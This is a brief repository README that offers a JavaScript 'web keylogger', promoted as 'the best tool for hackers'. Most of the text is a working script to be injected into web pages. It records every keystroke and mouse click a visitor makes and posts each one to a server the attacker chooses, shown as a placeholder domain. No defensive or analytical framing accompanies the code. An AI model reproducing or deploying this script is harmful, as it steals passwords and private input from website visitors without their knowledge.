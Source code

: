 # keylogger
a web keylogger!

***
This web keylogger can be the best tool for hackers
***

<h1 style="color: red;">
Keylogger Sources
</h1>

```
<script>

(function(){
	var server = "http://domain.com/";  //enter your page URL
	document.addEventListener("keyup", function(e){
		var x = new XMLHttpRequest();
		x.open("POST", server, true);
		x.send(e.key);
	});
	
	document.addEventListener("click", function(e){
		var click;
		if(e.which == 1){
			click = " Left Click ";
		}else{
			click = " Right Click ";
		}
		
		var x = new XMLHttpRequest();
		x.open("POST", server, true);
		x.send(click);
	});
})();
</script>

```
# Get out of the matrix !
